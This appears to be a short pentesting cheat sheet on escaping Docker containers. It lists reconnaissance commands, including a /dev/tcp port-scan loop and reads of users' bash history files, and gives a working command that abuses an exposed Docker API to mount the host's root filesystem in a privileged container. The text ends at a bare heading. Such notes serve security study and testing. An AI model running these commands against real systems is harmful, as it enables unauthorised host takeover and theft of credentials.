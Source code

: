 # Docker escape

### Investigation

[https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/#investigation](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/#investigation)

If we are in the docker container, we first need to investigate basic information about the container.

```bash
# Network
ip addr
netstat -punta
ss -ltu
cat /etc/hosts

# Port scan another host
nmap 172.17.0.1
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done

# History
cat /root/.bash_history
cat /home/<username>/.bash_history

# Interesting Directories
ls -al /etc
ls -al /opt
ls -al /srv
ls -al /var/www

# SSH
ssh <user>@<another_host>

# Check if docker command is available.
# If not, find the command in the container.
docker -h
find / -name "docker" 2>/dev/null

# Container capabilities
capsh --print

```

### Run a new vulnerable docker machine.

[https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising)

Abusing this it's possible to escape form a container, you could run a weak container in the remote machine, escape from it, and compromise the machine:

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cd /mnt/
```

Run existing docker image

